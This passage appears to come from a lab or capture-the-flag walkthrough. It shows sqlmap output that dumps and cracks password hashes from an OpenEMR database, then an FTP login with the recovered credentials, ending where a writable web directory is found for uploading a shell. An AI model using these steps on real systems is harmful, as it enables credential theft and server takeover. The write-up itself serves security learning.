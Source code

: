 ```
---
[22:12:39] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[22:12:39] [INFO] fetching columns for table 'users' in database 'openemr'
[22:12:39] [INFO] fetching entries for table 'users' in database 'openemr'
[22:12:39] [INFO] resumed: ''
[22:12:39] [INFO] resumed: '1'
[22:12:39] [INFO] resumed: ' '
[22:12:39] [INFO] resumed: '1'
[22:12:39] [INFO] resumed: ' '
[22:12:39] [INFO] resumed: '3'
...
...
[22:12:39] [INFO] resumed: 'medical'
[22:12:39] [INFO] resumed: ' '
[22:12:39] [INFO] resumed: ' '
[22:12:39] [INFO] resumed: ' '
[22:12:39] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[22:12:42] [INFO] using hash method 'sha1_generic_passwd'
[22:12:42] [INFO] resuming password 'ackbar' for hash '3863efef9ee2bfbc51ecdca359c6302bed1389e8' for user 'admin'
[22:12:42] [INFO] resuming password 'medical' for hash 'ab24aed5a7c4ad45615cd7e0da816eea39e4895d' for user 'medical'
```
I dump `users` table of database `openemr` and found 2 users with hashes.
```
admin   : ackbar
medical : medical
```
# Upload Shell with FTP
Further, I login to FTP using `medical` creds. 
```
$ftp 192.168.1.9
Connected to 192.168.1.9.
220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.1.9]
Name (192.168.1.9:hitesh): medical
331 Password required for medical
Password:
230 User medical logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
We have read-write permission to `/var/www/html/openemr` directory.
```
ftp> cd /var/www/html
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 root     root         4096 Oct 27  2011 addon-modules
drwxr-xr-x   2 root     root         4096 Jan  7  2018 css
-rw-r--r--   1 root     root         1406 Mar 19  2011 favicon.ico
drwxr-xr-x   5 root     root         4096 Jan  7  2018 fonts
drwxr-xr-x   3 root     root         4096 Jul 29 21:31 images
-rwxr-xr-x   1 root     root         5031 Jan  6  2018 index.html
drwxr-xr-x   2 root     root         4096 Jan  7  2018 js
drwxr-xr-x  21 medical  medical      4096 Sep  6 15:31 openemr
-rw-r--r--   1 root     root          620 Mar 19  2011 robots.txt
```